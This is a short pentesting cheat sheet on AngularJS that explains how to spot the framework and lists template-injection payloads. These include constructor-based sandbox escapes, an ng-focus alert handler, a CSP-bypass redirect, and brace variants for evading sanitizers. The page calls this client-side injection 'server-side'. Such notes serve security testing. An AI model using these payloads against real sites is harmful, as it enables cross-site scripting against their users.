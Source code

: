 ```yaml
---
title: Angular Pentesting
description: AngularJS is a web application framework.
tags:
    - SSTI
    - Web
refs:
date: 2023-07-12
draft: false
---
```


## HTML Attributes

If a website uses AngularJS framework, the nodes have a “ng-apps” attribute. So you can check it in a HTML source code. 

```html
<div ng-apps>
```

<br />

## Server-Side Template Injection (SSTI)

```bash
{{2*3}}
{{$on.constructor('alert("test")')()}}
{{constructor.constructor('alert("test")')()}}
<input ng-focus=$event.view.alert('test')>

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

It worth testing to bypass sanitizing as below.

```bash
# Remove one-pair braces
{2*3}

# Remove all braces
2*3

# Add additional braces
{{{2*3}}}
```